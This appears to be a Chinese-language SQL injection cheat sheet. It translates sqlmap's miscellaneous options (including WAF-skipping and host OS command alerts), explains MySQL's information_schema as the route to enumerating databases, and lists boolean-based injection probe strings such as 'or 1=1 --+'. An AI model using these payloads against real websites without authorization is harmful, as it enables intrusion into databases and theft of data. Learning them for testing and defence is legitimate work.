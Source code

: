 #### 其他参数

```sql
-z MNEMONICS        使用短助记符 (e.g. "flu,bat,ban,tec=EU")
--alert=ALERT       找到SQL注入时运行主机OS命令
--answers=ANSWERS   预定义的答案 (e.g. "quit=N,follow=N")
--beep              查询和/或发现SQL注入时发出哔哔声
--cleanup           从sqlmap特定的UDF和表中清理DBMS
--dependencies      检查缺少(可选)sqlmap依赖项
--disable-coloring  禁用控制台输出着色
--gpage=GOOGLEPAGE  使用来自指定页码的谷歌dork结果
--list-tampers      显示可用的篡改脚本列表
--mobile            通过HTTP用户代理头模仿智能手机
--offline           脱机工作模式 (only use session data)
--purge             安全地从sqlmap数据目录中删除所有内容
--skip-waf          跳过WAF/IPS保护的启发式检测
--smart             只有在启发式为正时才进行彻底的测试(s)
--sqlmap-shell      提示输入一个交互式sqlmap shell
--tmp-dir=TMPDIR    存储临时文件的本地目录
--web-root=WEBROOT  Web服务器文档根目录 (e.g. "/var/www")
--wizard            初学者使用的简单向导界面
```

## 手工注入

## 数据库元数据表

```linux
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。

元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

也就是说information_schma可以查到你的所有的搭建的数据库名、表名和列的数据类型，在一切条件未知的情况下，存在注入点的话我们可以直接尝试对information_schema进行访问，从而获得更多的信息。

SCHEMATA:提供了当前MySQL实例中所有数据库的信息
TABLES:所有数据库表的信息
CONLUMNS：提供了列信息
```

## 测试注入点的语句

```linux
# 基础判断注入语句
||0--+
||1--+
&& true--+
&& false--+
and 1=1--+
and 1=2--+
and 2>1--+
and 2>3--+
and '1'='1
and '1'='2
and "1"="1"--+
and "1"="2"--+
and '1'='2' )
and ("x"="x
or 1=1 --+
or 1=2 --+
or ''=''--+
or 's'='s'--+
or ('a'='a
and 1=1 and '%'='
```